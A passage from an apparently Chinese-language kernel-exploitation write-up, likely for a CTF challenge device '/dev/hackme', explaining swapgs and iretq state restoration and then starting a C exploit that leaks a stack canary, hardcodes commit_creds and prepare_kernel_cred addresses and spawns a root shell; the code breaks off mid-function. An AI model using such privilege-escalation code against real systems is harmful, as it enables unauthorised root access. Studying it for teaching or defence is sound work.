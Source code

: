 ```
                FI;
                GOTO RETURN-TO-SAME-PRIVILEGE-LEVEL; FI;
END;
```

stack 由上到下必須放置 `RIP | CS | tempRFLAGS | RSP | SS`，所以在進入 kernel mode 前，就可以先把這些 register 的值儲存起來，而在 return 回 shellcode 前重新 push 到 stack 當中 (kernel 不會動到 `user_<reg>`)，並且在 push 回去前，必須執行 `swapgs`: 

- swap the `GS` register between `kernel-mode` and `user-mode`
- exchanges the CPL 0 data pointer from the IA32_KERNEL_GS_BASE MSR with the GS base register

```
IF CS.L ≠ 1 (* Not in 64-Bit Mode *)
    THEN
        #UD; FI;
IF CPL ≠ 0
    THEN #GP(0); FI;
tmp ← GS.base;
GS.base ← IA32_KERNEL_GS_BASE;
IA32_KERNEL_GS_BASE ← tmp;
```

這邊用一個一個 push 回去的方法，而也可以用 `swapgs_restore_regs_and_return_to_usermode `。

exploit:

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>

int devfd;
unsigned long user_cs, user_ss, user_rflags, user_sp;
unsigned long canary;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long commit_creds = 0xffffffff814c6410;

void open_dev()
{
    if ((devfd = open("/dev/hackme", O_RDWR)) < 0)
        perror("[-] open dev failed");
    puts("[+] open dev success");
}

void leak()
{
    char data[0x100];
    if (read(devfd, data, sizeof(data)) < 0)
        perror("[-] read dev failed");
    canary = *(unsigned long *) (data + (0xa0-0x20));
    puts("[+] leak canary success");
    printf("[*] canary: 0x%08lx\n", canary);
}

void get_shell()
{
    system("sh");
}

unsigned long user_rip = (unsigned long) get_shell;
void esc_priv()
{
    __asm__ volatile(
        ".intel_syntax noprefix \n"
```